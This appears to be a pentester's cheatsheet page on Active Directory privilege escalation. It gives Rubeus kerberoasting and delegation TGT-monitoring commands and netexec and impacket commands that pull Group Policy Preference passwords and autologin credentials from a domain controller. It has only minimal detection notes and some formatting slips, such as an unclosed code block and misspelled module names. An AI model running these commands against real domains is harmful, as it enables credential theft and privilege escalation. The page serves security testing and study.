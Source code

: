 ```yaml
---
layout: post
title: privesc / ad
category: 02-privesc
parent: cheatsheets
modified_date: 2023-07-04
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [kerberoasting](#kerberoasting)
	* [delegations](#delegations)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)
	* [gpp-password](#gpp-password)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/t0thkr1s/gpp-decrypt","https://api.github.com/repos/FSecureLABS/SharpGPOAbuse","https://api.github.com/repos/NetSPI/PowerUpSQL"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='kerberoasting'></a>kerberoasting
```powershell
# kerberoastable accounts that support RC4_HMAC
Rubeus.exe -args kerberoast /user:$ztarg_user_name /simple /rc4opsec /outfile:hashes.txt

# edit 'hashes.txt' and remove the port in the SPN FOR JTR valid input 
:1433
```

🔎️ DETECT :
```powershell
# Kerberos etype downgrade
```

### <a name='delegations'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)

```powershell
# KUD server: monitor the TGT
Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

```powershell
pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


#### KUD

* sniff TGT on the KUD with rubeus
* coercer account authentication  to retrieve the TGT

#### KCD

* introduced in Windows Server 2008
* requires the service account hash of the KCD (defines with the attribute 'useraccountcontrol' = 'TRUSTED_TO_AUTH_FOR_DELEGATION')
* kraft TGS to services in the 'msds-allowedtodelegateto'

#### RBCD

## <a name='shoot-gpo'></a>shoot-gpo

![](/assets/images/win_20_audit_gpo.jpg)

### <a name='gpp-password'></a>gpp-password

```bash
# cme
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin

# impacket
Get-GPPPassword.py $zz
```